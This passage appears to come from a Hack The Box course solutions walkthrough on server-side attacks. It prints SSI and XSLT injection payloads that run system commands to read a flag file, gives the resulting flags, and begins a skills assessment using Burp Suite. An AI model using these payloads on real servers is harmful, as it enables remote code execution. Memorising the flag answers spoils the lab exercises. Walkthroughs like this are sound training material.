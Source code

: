 Code: shell

```shell
<!--#exec cmd="cat /flag.txt" -->
```

![[HTB Solutions/CBBH/z. images/e824e7b8a4f4fe0cc291b87e1dfd6242_MD5.jpg]]

Answer: `HTB{81e5d8e80eec8e961a31229e4a5e737e}`

# Exploiting XSLT Injection

## Question 1

### "Exploit the XSLT Injection vulnerability to obtain RCE and read the flag."

Students will find that the XSLT processor supports PHP functions, and therefore, may call the PHP `system` function to execute a command which reads the contents of the flag:

Code: shell

```shell
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

![[HTB Solutions/CBBH/z. images/ce689c3bb1d149f9d276011b9cc7b3b8_MD5.jpg]]

After students submit the query, the flag will be revealed:

![[HTB Solutions/CBBH/z. images/9b23f3c28a562ab43804b6e9d843f68c_MD5.jpg]]

Answer: `HTB{3a4fe85c1f1e2b61cabe9836a150f892}`

# Server-Side Attacks - Skills Assessment

## Question 1

### "Obtain the flag"

Students need to turn on Burp Suite, then browse to `http://STMIP:STMPO`, intercept the request and send it to Repeater (to more easily visualize the request and response):

![[HTB Solutions/CBBH/z. images/af89afc5fd4667a2f45040a9ccb24704_MD5.jpg]]

Students will notice inline Javascript, designed to retrieve the location of trucks identified by the IDs `"FusionExpress01"`, `"FusionExpress02"`, and `"FusionExpress03".` By looping through each, it creates a new `XMLHttpRequest` object is created. used to send HTTP requests and handle responses.

More specifically, a synchronous POST request is sent to the server's root endpoint (`'/'`) for each truck ID in the list. The server is expected to return the current location of each truck in JSON format. The script then updates the HTML element corresponding to each truck ID with either the truck's location or an error message if the location cannot be fetched.

